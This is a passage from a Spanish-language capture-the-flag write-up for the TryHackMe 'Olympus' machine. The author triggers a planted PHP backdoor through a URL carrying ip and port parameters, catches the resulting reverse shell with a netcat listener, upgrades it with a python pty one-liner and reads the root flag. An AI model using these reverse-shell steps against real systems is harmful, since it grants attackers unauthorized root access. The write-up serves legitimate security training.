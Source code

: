Un mensaje con intrucciones para cargar una shell reversa que promete acceso como root. La puerta trasera de la que hablaba Prometheus quizas ?

Seguimos las instrucciones del mensaje

* Iniciamos un **netcat** escuchando en el puerto 4433

* Cargamos la URL con la info correcta

```
10.10.129.191/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=10.18.xx.xx&port=4433
```

Nos vamos al terminal con el **nc**

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ nc -lvnp 4433
listening on [any] 4433 ...
connect to [10.18.xx.xx] from (UNKNOWN) [10.10.129.191] 56506
Linux olympus 5.4.0-109-generic #123-Ubuntu SMP Fri Apr 8 09:10:54 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 22:48:48 up  1:18,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
zeus     pts/0    10.18.xx.xx      21:34   35:30   0.04s  0.04s -bash
whoami
root
python3 -c "import pty;pty.spawn('/bin/bash')"
root@olympus:/# pwd
pwd
/
root@olympus:/# cd root
cd root
root@olympus:/root# ls -la
ls -la
total 44
drwx------  7 root root 4096 Apr 24 18:06 .
drwxr-xr-x 19 root root 4096 Mar 22 14:53 ..
lrwxrwxrwx  1 root root    9 Mar 23 08:58 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Mar 22 15:18 .cache
drwxr-xr-x  3 root root 4096 Mar 22 15:44 .local
-rw-------  1 root root 2866 Apr 24 18:06 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Mar 22 15:12 .ssh
drwxr-xr-x  3 root root 4096 Mar 22 15:26 config
-rw-r--r--  1 root root 1576 Apr 18 09:32 root.flag
drwx------  3 root root 4096 Mar 22 15:12 snap
root@olympus:/root# 
root@olympus:/root# cat root.flag
cat root.flag
                    ### Congrats !! ###




                            (
                .            )        )
                         (  (|              .
                     )   )\/ ( ( (
             *  (   ((  /     ))\))  (  )    )
           (     \   )\(          |  ))( )  (|
           >)     ))/   |          )/  \((  ) \
           (     (      .        -.     V )/   )(    (
            \   /     .   \            .       \))   ))
              )(      (  | |   )            .    (  /
             )(    ,'))     \ /          \( `.    )
```